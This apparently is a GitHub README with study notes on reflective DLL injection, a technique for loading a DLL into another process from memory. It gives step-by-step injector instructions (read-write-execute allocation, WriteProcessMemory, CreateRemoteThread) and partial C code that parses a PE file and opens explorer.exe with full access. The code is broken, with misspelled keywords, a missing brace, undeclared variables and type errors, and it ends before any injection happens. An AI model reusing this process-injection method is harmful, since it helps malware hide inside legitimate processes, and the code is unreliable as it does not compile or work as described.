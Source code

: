 # Reflective Injection

**Reflective injection is a technique that allows an attacker to  inject a DLL into a target process from memory rather than disk.** 

## Overview
Here we will have 2 processes:
- Target process(host process)
- Injector process
- and a DLL.
Inside a DLL there will be a exported function. Name of the exported function will be **ReflectiveLoader** or it can be whatever we want. 

In brief; injector process will write the dll in the address space of target process and then it will call the exported function(ReflectiveLoader) of the DLL. Then the exported function will load itself in the target address space.

## Steps to make injector process:
1. Take command line arguments
	- pid of target process **argv[1]**
	- absolute path of the dll to be injected **argv[2]**
	- name of the exported function of dll that will load the itself(dll) **argv[3]**
2. Using the *absolute path of DLL* open the dll with required access right and read it in heap memory of injector process
3. parse the dll file copied into heap to find out the offset of the exported function(argv[3]).
4. save the offset of exported function in a variable. **If not able to find the offset then free the allocated heap memory and exit the program**.
5. else  
6. Using the *pid* open the target process with the required access rights
8. Using WIN API *VirtualAllocEx()* allocate a READ_WRITE_EXECUTABLE region in the target process.
9. using WIN API *WriteProcessMemory()* write the memory allocated in STEP8 with the dll present in the heap of injector process
10. VirtualAllocEx() function will save the first address of allocated memory space in a variable. After STEP9 that first address will be the base address of the dll.
11. adding up the base address of dll and the offset of exported function we will get the virtual address of exported function
12. This VA of exported function will be given to WIN API CreateRemoteThread() as the functionality to be executed the the thread.
  	
        '''
		DWORD ThreadId;
		HANDLE hThread = CreateRemoteThread(hProcess, NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)VAOfExportedFunction, NULL, (DWORD)NULL, &dwThreadId);
        	if (!hThread) {
        		printf("Error in creating thread");
        		return 1;
    		}
	    	WaitForSingleObject(hThread, -1);	'''

13.with this the injecter code will be completed

## code

    #include <stdio.h>
    #include <Windows.h>
    #include <string.h>
    
    typedef struct _PE_INFO {
      LPVOID base;
      BOOL Reloc; //If base relocation is needed
      LPVOID Get_Proc; //Address of GetProcAddress function 
      LPVOID Load_Dll; //Address of LoadLibraryA
    }PE_INFO, * LPE_INFO;
    
    
    // This function gives us the data of Target Process using which we will read its headers
    DWORD ReadTargetProcessMemory(char * ProcessName) {
        HANDLE hProcess;
        DWORD fileSize;
        LPVOID fileData = NULL;
        DWORD byteRead = NULL
        
        hProcess = CreateFileA(ProcessName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	    if (file == INVALID_HANDLE_VALUE) {
            printf("Could not read file");
        }
        
        fileSize = GetFileSize(hProcess, NULL);
	    fileData = HeapAlloc(GetProcessHeap(), 0, fileSize);
        if (!fileData) {
            printf("Failed to allocate heap memory");
        }
        
        ReadFile(hProcess, fileData, fileSize, &bytesRead, NULL);
        
        return fileData;
    }
    
    
    // This function will find the pid of the target process. Name of the target process will be given by command line argument
    HANDLE FindProcess(const char* processName) {
      HANDLE hSnapshot, hProcess; 
      PROCESSENTRY32 pe;
      pe.dwSize = sizeof(pe);
      BOOL found = 0;
      
      if ((hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)) == INVALID_HANDLE_VALUE)
        return 1;
      }
    
      if(!Process32First(hSnapshot, &pe)) {
        return 1;
      }
      
      do {
        if (!strcmp(pe.szExeFile , processName)) {
          found = 1;
          break;
        }
      } while (Process32Next(hSnapshot, &pe));
      
      if (!found) {
        printf("Processnot found\n");
        retrun 1;
      }
      
      if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pe.th32ProcessID)) == NULL) {    //take a look we are asing foe all access.
                                                                                          //This can give error for someother process
        printf("Failed to open process\n");
        return 1;
      }
      
      else 
      retrun hProcess;
    }
    
    
    int main(int argc, char* argv[]) {
   
      if (argc != 2){
        printf("usage: <DLL path>");
      }
      
      HANDLE hProcess;
      DWORD base;
      PIMAGE_DOS_HEADER dos;
      PIMAGE_NT_HEADERS nt;  
      PIMAGE_SECTION_HEADER sec;
      
      base = ReadTargetProcessMemory(argv[1]);
      if (!base) {
        printf("Failed to read file");
        retrun 1;
      }
      
      dos = (PIMAGE_DOS_HEADER)base;
      if (dos->e_magic != 23117) {
        printf("Invalid file");
        retrun 1;
      }
      
      nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
      sec = (PIMAGE_SECTION_HEADER)((LPVOID)nt +24 + nt->FileHeader.SizeOfOptionalHeader);
      
      if (nt->OptionalHeader.Magic != 523) {
        printf("This is not a 64-bit PE file");
        retrun 1;
      }
      
      hProcess = FindProcess("explorer.exe");
      if (!hProcess) {
        printf("Failed to open process");
        retrun 1;
      }
      
      //6:27
      
    return 0;
    }
